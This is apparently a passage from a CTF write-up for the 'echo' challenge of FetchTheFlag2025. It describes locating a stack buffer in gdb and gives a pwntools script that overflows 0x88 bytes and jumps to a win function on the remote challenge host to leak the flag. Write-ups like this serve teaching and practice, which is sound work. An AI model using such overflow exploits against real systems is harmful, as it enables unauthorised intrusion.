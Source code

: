 We identified a the location of the buffer in gdb so that we can craft the payload afterwards.

<div style="text-align: center;">
    <img src="../images/FetchTheFlag2025/echo-2.png" alt="echo-2" style="max-width: 75%; height: auto;">
</div>

Bellow you can find our script that is delivering the payload to the remote binary.

```python
from pwn import *

context.binary = './echo'
context.log_level = 'debug'

r = remote('challenge.ctf.games', 31084)

win_address = 0x401216
buffer_size = 0x88

payload = b'A' * buffer_size
payload += p64(win_address)

r.sendline(payload)

r.interactive()
```

After running the script we got the flag leaked.

<div style="text-align: center;">
    <img src="../images/FetchTheFlag2025/echo-4.png" alt="echo-4" style="max-width: 75%; height: auto;">
</div>
